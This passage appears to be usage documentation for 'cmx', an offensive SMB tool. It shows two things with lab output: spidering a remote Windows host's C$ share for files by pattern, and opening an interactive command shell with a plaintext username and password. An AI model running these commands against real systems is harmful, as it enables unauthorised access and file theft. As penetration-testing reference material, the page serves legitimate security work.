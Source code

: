 Options for spidering shares of remote systems.

## \*\*\*Spider the C drive for files with txt in the name (finds both sometxtfile.html and somefile.txt)
Notice the '$' character has to be escaped. 
Example:  
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 --spider C\$ --pattern txt

Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:06:16         [!] Starting Spider [!]
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Started spidering
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Spidering .
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/DVD Maker/Shared/DvdStyles/Pets/Pets_notes-txt-background.png [lastm:'2019-01-17 13:57' size:7888]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/VMware/VMware Tools/open_source_licenses.txt [lastm:'2019-01-17 12:34' size:607486]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/VMware/VMware Tools/vmacthlp.txt [lastm:'2019-01-17 12:34' size:233]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/Windows NT/TableTextService/TableTextServiceAmharic.txt [lastm:'2019-01-17 13:57' size:16212]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/Windows NT/TableTextService/TableTextServiceArray.txt [lastm:'2019-01-17 13:57' size:1272822]
```


--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------
# Interactive Shell Mode

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| false         | false       | true        | false       | true*      |

Gain a command prompt on the target.  

## Interactive Mode
User/Password
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 -i
Aug.20.19 14:31:31  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:31:31  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 14:31:31         [!] Bout to get shellular [!]
   .... i'm in 

C:\Windows\system32> hostname
Win7E-PC

C:\Windows\system32>

```
  